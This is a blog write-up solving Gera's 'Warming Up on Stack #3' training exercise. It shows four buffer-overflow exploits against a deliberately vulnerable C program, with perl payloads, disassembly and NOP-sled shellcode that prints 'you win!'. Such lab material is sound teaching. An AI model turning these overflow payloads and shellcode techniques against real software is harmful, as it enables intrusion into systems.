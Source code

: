 Gera's Warming Up on Stack #3 - Solutions
==========================================
date: 03/Jan/2013
summary: Solutions for Gera's Warming up on Stack #3 program.
tags: exploit, ctf

## Introduction

Following is the part 3 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by Gerardo 'gera' Richarte at the [Insecure Programming by example](http://pages.cs.wisc.edu/~riccardo/sec/) page.

This post follows the [Gera's Warming Up on Stack #2 - Solutions](/posts/20130102_geras-wuos-stack2-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack3.c](http://pages.cs.wisc.edu/~riccardo/sec/stack3.html) program:

```c
/* stack3.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x01020005)
        printf("you win!\n");
}
```

The above program accepts user-input through the `gets` function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it print the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

1. Since it is defined prior to `buf`, the `cookie` would be placed at a higher memory address on the program stack, just below the saved registers from the function prologue
2. The `buf` character array would be at an offset of at least 80B from `cookie`
3. The `gets` call would accept unbounded user-input within `buf` array and hence it provides a mechanism to alter the call stack contents

Stack layout for [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are solutions I could think of to get the `you win!` message
printed:

- Solution #1: Overflow the internal `buf` array to overwrite `cookie` with `0x01020005`
- Solution #2: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`
- Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address
- Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address

Here's a brief description of the test system:

```
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

## Solutions
### Solution #1: Overflow the internal `buf` array to overwrite cookie with `0x01020005`

Here's the GCC commandline to prepare [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) for this solution:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack3 stack3.c
stack3.c: In function ‘main’:
stack3.c:8: warning: incompatible implicit declaration of built-in function ‘printf’
stack3.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack3.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccuoj5F5.o: In function `main':
stack3.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

All done, let's exploit [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html):

```
# perl -e 'print "A"x80 . "\x05\x00\x02\x01"' | ./stack3
buf: bfd625a4 cookie: bfd625f4
you win!
```

### Solution #2: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`

We need to have a look at the assembly of [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) and find out the location of the `printf` function which displays the `you win!` message:

```
# objdump -d -M intel stack3 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 <printf@plt>
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 <gets@plt>
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 05 00 02 01          cmp    eax,0x1020005
 8048477:   75 0c                   jne    8048485 <main+0x41>
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 <puts@plt>
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be 0x8048479. Let's try exploiting:

```
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack3
buf: bfb82e64 cookie: bfb82eb4
you win!
Segmentation fault
```

### Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address

Let's first recompile [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) and request GCC to mark program stack as executable. Additionally, we also need to turn ASLR off so that we can have a static return address to overwrite EIP with:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack3 stack3.c 2>/dev/null ; readelf -l stack3 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Now lets go ahead with exploitation. The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```
# ./stack3
buf: bffff4c4 cookie: bffff514
#
# ./stack3
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack3
buf: bffff4c4 cookie: bffff514
you win!#
```

### Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var overwrite EIP with its address

Lets get straight to exploitation:

```
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack3
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack3
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the [stack3.c](http://community.corest.com/%7Egera/InsecureProgramming/stack3.html) program through four different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

## Conclusion

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.
